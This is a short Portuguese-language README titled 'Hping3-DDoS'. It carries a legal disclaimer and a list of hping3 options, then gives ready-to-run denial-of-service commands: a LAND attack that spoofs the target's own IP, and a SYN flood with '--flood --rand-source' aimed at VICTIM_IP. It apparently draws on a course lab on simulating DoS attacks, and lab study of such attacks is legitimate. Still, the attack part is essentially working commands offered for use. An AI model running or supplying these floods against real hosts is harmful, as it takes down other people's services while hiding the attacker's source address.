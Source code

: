 # Hping3-DDoS

## AVISO
- Não me responsabilizo pelo o uso desses projetos/códigos para fins malignos. Eles são criados para pessoas que tenham interesse na área de Segurança da Informação.

- Todos os códigos e projetos foram testados em ambientes isolados por mim.

- Lembrem-se de que usar essas informações para hackear, invadir ou derrubar serviços de dispositivos alheios é CRIME previsto na Lei [14.155/2021](http://www.planalto.gov.br/ccivil_03/_ato2019-2022/2021/lei/L14155.htm).
## Important Commands

- Help hping3

```
sudo hping3 -h
```

```
• -V: Modo Verbose;
• -c: Contador de pacotes;
• -d: Tamanho do dado;
• -p: Porta de destino;
• -s: Porta de origem;
• –rand-source: Randomização da origem;
• –fast: 10 pacotes por segundo;
• –faster: 100 pacotes por segundo;
• –flood: Máximo de pacotes possı́veis por segundo;
```

```
Mode
  default mode     TCP
  -0  --rawip      RAW IP mode
  -1  --icmp       ICMP mode
  -2  --udp        UDP mode
  -8  --scan       SCAN mode.
                   Example: hping --scan 1-30,70-90 -S www.target.host
  -9  --listen     listen mode

```

## Attack DoS Land
```
hping3 -V -c 1000 -d 100 -S -p 21 -s 80 -k -a 192.168.1.110 192.168.1.110
```

## DoS type Syn Flooding
```
hping3 -V -c 1000000 -d 120 -S -p 445 -s 445 --flood --rand-source VICTIM_IP
```

## References
- http://docente.ifrn.edu.br/josemacedo/disciplinas/2019/2019.1/praticas-de-laboratorio/03-simulando-ataques-dos-com-hping